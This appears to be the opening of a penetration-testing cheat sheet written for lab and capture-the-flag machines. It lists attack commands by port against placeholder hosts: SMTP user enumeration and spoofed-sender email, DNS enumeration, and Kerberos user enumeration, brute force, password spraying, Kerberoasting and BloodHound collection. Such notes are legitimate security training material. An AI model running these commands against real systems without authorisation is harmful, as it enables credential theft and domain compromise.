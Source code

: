 # EzpzCheatSheet
This CheatSheet will not have much explanation. It just a commands that has been used pwning all of the machines from various platform and something that I have encounter before.

# A. Ports

### 25 (SMTP)

```bash
# Nmap

# Enum Users
smtp-user-enum -M VRFY -U /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt -t 10.10.10.10

# Swaks (Send Email)
swaks --to nik@bank.local --from aniq@bank.local --header "Subject: Welcome" --body "Enjoy your stay!" --server 10.10.10.10
```

### 53 (DNS)

```bash
# Install
sudo apt install dnsutils

# Nmap
nmap -n --script "(default and *dns*) or fcrdns or dns-srv-enum or dns-random-txid or dns-random-srcport" 10.10.10.10

# Nslookup
nslookup 10.10.10.10
	* server 10.10.10.10
	* 10.10.10.10

```

### 88 (Kerberos)

```bash
# Nmap


# Enumerate Users
kerbrute userenum -d bank.local --dc 10.10.10.10 /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

# Bruteforce User
kerbrute bruteuser -d bank.local --dc 10.10.10.10 rockyou.txt nik

# Passwword Spray
kerbrute passwordspray -d bank.local --dc 10.10.10.10 user.txt 'Password@123!'

# Kerberoasting
GetUserSPNs.py bank.local/nik:'Password@123!' -dc-ip 10.10.10.10 -request -outputfile output.txt

# bloodhound-python
bloodhound-python -u 'nik' -p 'Password@123!' -d 'bank.locall' -ns 10.10.10.10
```
